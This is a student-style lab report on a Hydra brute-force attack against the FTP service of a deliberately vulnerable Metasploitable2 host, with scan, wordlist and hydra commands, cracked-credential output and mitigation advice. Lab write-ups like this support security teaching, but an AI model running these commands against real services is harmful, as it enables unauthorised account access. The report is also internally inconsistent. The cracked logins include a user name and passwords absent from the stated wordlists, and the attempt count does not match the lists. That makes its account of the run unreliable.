 # 🔐 Hydra FTP Brute-Force Attack Lab Report

**Author:** Abdul Rahman Said  
**Date:** 06/29/2025 
**Target IP:** 192.168.21.128  
**Service:** FTP (Port 21)  
**Tools Used:** hydra, nmap, echo, Linux CLI

---

## 📌 Executive Summary

This lab demonstrates the use of Hydra, a powerful password-cracking tool, to perform a brute-force attack against the FTP service on a vulnerable Metasploitable2 machine. The attack succeeded in discovering 5 valid login credentials.

---

## 🗺️ Network Topology

```
+------------------+              +-------------------------+
|  Kali Linux      | ------------|  Metasploitable2 (FTP)  |
|  192.168.21.X     |  FTP: 21   |  192.168.21.128         |
+------------------+              +-------------------------+
```

---

## 🛠️ Tools Description

- **Hydra:** A fast and flexible brute-force tool that supports many protocols.  
- **Nmap:** Used to confirm FTP (port 21) is open on the target machine.  
- **Echo + Redirection (>):** Used to create custom username and password lists.

---

## 📋 Steps Performed

### 1. Scan the Target for FTP
```bash
nmap -p 21 192.168.21.128
```
**Result:**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```

### 2. Create Wordlists
```bash
echo -e "msfadmin\nroot\ntoor\nadmin\nuser" > users.txt
echo -e "msfadmin\n123456\npassword\nadmin" > passwords.txt
```

### 3. Run Hydra Attack
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.21.128
```

---

## ✅ Hydra Output Summary
```bash
[21][ftp] host: 192.168.21.128   login: ftp       password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: root
[21][ftp] host: 192.168.21.128   login: msfadmin  password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: toor
[21][ftp] host: 192.168.21.128   login: ftp       password: 123456
```

---

## 🧠 Interpretation

The FTP service accepts weak and default credentials, including common names like ftp, msfadmin, toor, and 123456.  
Hydra tested 30 login attempts across 6 users × 5 passwords in seconds.

---

## ⚠️ Risk Assessment

| Risk                  | Description                             | Impact | Mitigation                          |
|-----------------------|-----------------------------------------|--------|-------------------------------------|
| Weak FTP Credentials  | Default/weak passwords easily cracked   | High   | Use strong, unique passwords        |
| Brute-force Vulnerable| Service does not rate-limit login tries | High   | Implement rate limiting or lockouts|
| FTP Unencrypted       | Credentials sent in plain text          | High   | Replace FTP with SFTP or disable FTP|

---

## 🛡️ Defense Recommendations

- Enforce strong password policies.  
- Disable FTP if not needed, or replace it with secure alternatives like SFTP.  
- Monitor logs for brute-force attempts.  
- Use tools like fail2ban to block repeated failed login attempts.

---

## 📎 Notes

This attack was conducted in a controlled lab environment.  
All actions were ethical and educational, targeting a deliberately vulnerable machine.
